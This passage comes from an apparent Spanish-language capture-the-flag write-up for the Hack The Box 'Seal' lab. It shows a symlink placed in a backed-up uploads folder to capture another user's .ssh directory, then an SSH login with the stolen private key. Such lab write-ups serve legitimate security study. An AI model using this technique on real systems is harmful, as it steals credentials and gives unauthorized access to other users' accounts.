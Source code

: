 Nos movemos a donde estan los recursos que se comprimen en el `backup`
```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ pwd
/var/lib/tomcat9/webapps/ROOT/admin/dashboard

tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -l
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
```
Procedemos con el `enlace simbolico`
```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ln -s /home/luis/.ssh/ uploads/
```
Ahora procedemos a descomprimir el siguiente backup y en el directorio uploads encontraremos `.ssh`
```bash
# pwd                      
/HTB/Intentando/Seal/content/dashboard/uploads

# ls -la                       
total 12
drwx------ 3 root root 4096 nov 13 15:45 .
drwx------ 3 root root 4096 nov 13 21:26 ..
drwx------ 2 root root 4096 nov 13 15:45 .ssh

# ls -l .ssh      
total 12
-rw-r--r-- 1 root root  563 nov 13 15:45 authorized_keys
-rw------- 1 root root 2590 nov 13 15:45 id_rsa
-rw-r--r-- 1 root root  563 nov 13 15:45 id_rsa.pub
```

Procedemos a darle permisos 600 al `id_rsa`
```bash
# ssh -i id_rsa luis@10.10.10.250
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 14 Nov 2021 11:27:14 AM UTC

  System load:  0.0               Processes:             171
  Usage of /:   47.1% of 9.58GB   Users logged in:       0
  Memory usage: 28%               IPv4 address for eth0: 10.10.10.250
  Swap usage:   0%

 * Pure upstream Kubernetes 1.21, smallest, simplest cluster ops!

     https://microk8s.io/

22 updates can be applied immediately.
15 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri May  7 07:00:18 2021 from 10.10.14.2
```